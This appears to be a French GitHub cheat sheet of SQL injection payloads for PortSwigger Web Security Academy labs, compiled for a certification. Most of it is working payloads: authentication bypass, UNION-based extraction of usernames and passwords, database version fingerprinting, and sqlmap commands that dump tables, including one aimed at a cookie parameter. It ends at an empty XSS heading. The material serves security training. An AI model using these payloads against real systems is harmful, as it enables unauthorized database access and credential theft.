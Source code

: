 # Liste des commandes SQLi, XSS, CRCF ect.... pour passer la certification


## 1/ SQL injection

- [X] SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

    `?category=Pets' OR 1=1 --`

- [X] SQL injection vulnerability allowing login bypass
    
    `csrf=ok13OxKIWATN6nuJiviRmIaPQBeSNtTB&username=administrator'--&password=test`
    

- [X] SQL injection UNION attack, determining the number of columns returned by the query

    `?category=Pets'+UNION+SELECT+NULL,NULL,NULL--`

- [X] SQL injection UNION attack, finding a column containing text

    `?category=Pets'+UNION+SELECT+NULL,'3QFtaD',NULL--`

- [X] SQL injection UNION attack, retrieving data from other tables

    `?category=Gifts'+UNION+SELECT+username,password+from+users--`

- [X] SQL injection UNION attack, retrieving multiple values in a single column

    `?category=Pets'+UNION+SELECT+NULL,CONCAT(username,'+',password)+FROM+users--`
   
- [X] SQL injection attack, querying the database type and version on Oracle

    `?category=Pets'+UNION+SELECT+'a',banner+FROM+v$version--`

- [X] SQL injection attack, querying the database type and version on MySQL and Microsoft

    `?category=Gifts'+UNION+SELECT+@@version,+'a'#` # pour les commentaires en MySQL

- [X] SQL injection attack, listing the database contents on non-Oracle databases

    ```sqlmap -u URL
    
    --all #Retrieve everything
    
    --dump #Dump DBMS database table entries
    
    --dbs #Names of the available databases
    
    --tables #Tables of a database ( -D <DB NAME> )
    
    --columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
    
    -D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column```
    
    
- [X] SQL injection attack, listing the database contents on Oracle

    ```
    sqlmap -u URL -D DB -T TABLE --dump
    ```

- [ ] Blind SQL injection with conditional responses
    
    SQLi dans un cookie :
    
    `sqlmap -u https://0a3700fb034bd637809b997f00c0000c.web-security-academy.net --level 3 --param-filter='COOKIE' --cookie='TrackingId=Po558KqESh0tBbOQ; session=Q4g1iOWrZkGDUZefNNOOqJRqpOXqKWY8'`
    
    Le cookie est vulnérable :
    
        `sqlmap -u https://0a3700fb034bd637809b997f00c0000c.web-security-academy.net --level 3 --param-filter='COOKIE' --cookie='TrackingId=Po558KqESh0tBbOQ; session=Q4g1iOWrZkGDUZefNNOOqJRqpOXqKWY8' -D public -T users --dump`
    

- [ ] Blind SQL injection with conditional errors

- [ ] Visible error-based SQL injection

- [ ] Blind SQL injection with time delays

- [ ] Blind SQL injection with time delays and information retrieval

- [ ] Blind SQL injection with out-of-band interaction

- [ ] Blind SQL injection with out-of-band data exfiltration

- [ ] SQL injection with filter bypass via XML encoding






## 2/ XSS
